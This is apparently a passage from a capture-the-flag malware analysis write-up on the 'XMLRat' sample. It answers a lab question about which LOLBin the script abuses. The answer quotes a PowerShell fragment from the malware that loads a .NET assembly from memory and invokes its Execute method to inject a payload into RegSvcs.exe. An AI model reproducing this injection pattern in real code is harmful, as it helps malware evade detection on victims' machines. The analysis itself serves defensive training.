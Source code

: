 ![pic11](assets/images/cyberdefender/xmlrat/pic11.png)

>ANSWER: `2023-10-30 15:08`
{: .prompt-info }

#### Q6: Which LOLBin is leveraged for stealthy process execution in this script? Provide the full path.

Let's comeback to this snippet of code

```shell
# Load .NET assembly from memory
$HM = 'Load'
$Fu = [Reflection.Assembly]::$HM($pe)

# Get type and method
$NK = $Fu.GetType('NewPE2.PE')
$MZ = $NK.GetMethod('Execute')

# Construct argument: a real system path + $NKbb byte array
$NA = 'C:\Windows\Micr'
$AC = $NA + 'osoft.NET\Framework\v4.0.30319\RegSvcs.exe'
$VA = @($AC, $NKbb)

# Execute
$CM = 'Invoke'
$EY = $MZ.$CM($null, [object[]] $VA)
```

As you could see here, adversary utilized LOLBin, in this case `RegSvcs.exe` to loads an assembly (`Execute()` with main payload - `NKbb`)

